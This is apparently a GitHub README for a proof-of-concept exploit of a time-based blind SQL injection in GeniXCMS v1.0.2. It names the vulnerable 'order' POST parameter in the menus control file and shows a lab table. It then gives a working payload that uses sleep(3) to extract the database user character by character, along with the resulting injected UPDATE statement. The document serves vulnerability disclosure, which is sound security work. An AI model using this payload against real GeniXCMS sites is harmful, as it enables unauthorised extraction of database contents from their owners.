 # geniXCMS_102_sql_inj_poc
A demo PoC to exploit the time-based blind SQL injection vulnerability in latest GeniXCMS v1.0.2

# Notes
This SQL injection bug happened in the file `inc/lib/Control/Backend/menus.control.php` in GeniXCMS v1.0.2(latest) due to the parameter `$_POST['order']` failed to escape evil SQL injection keywords (only single quote has been filtered), and then it is used in a `UPDATE ... SET ...(injectable here)... WHERE ...` SQL statement.

In this demo case, only use `select user()` to burte forcing the current DB user.

Here is menus table in my Testing Lab machine:

```
mysql> select * from menus;
+----+------------+---------+--------+-----+------+-------+-------+-------+
| id | name       | menuid  | parent | sub | type | value | class | order |
+----+------------+---------+--------+-----+------+-------+-------+-------+
|  0 | test menu  | tstMenu | 0      | 0   | cat  | 1     |       | 0     |
|  3 | test menu2 | tstMenu | 0      | 0   | cat  | 1     |       | NULL  |
+----+------------+---------+--------+-----+------+-------+-------+-------+
2 rows in set (0.00 sec)
```

This is the SQL injection payload which will lead to a 3 seconds delay when the correct character is found:

```
order[0][order`=1 and (select * from (select(if(ascii(substr((select user()),1,1))=114,sleep(3),0)))a) and `name]
```

This is the SQL UPDATE statement after the payload injected, if the first character of DB user is 'r' then the server response will be delayed by 3 seconds:
```
UPDATE `menus` SET `id`='1' and (select * from (select(if(ascii(substr((select user()),1,1))=114,sleep(3),0)))a) and `name` = '1', WHERE `id` = '0' LIMIT 1;
```

# Reference
This vulnerability is discovered by `ADLab of Venustech`, and more detail can be found in [here][1]



<!--- Reference -->

[1]: https://github.com/semplon/GeniXCMS/issues/71#issuecomment-279409812				"SQL injection vulnerability in GeniXCMS v1.0.2(latest)"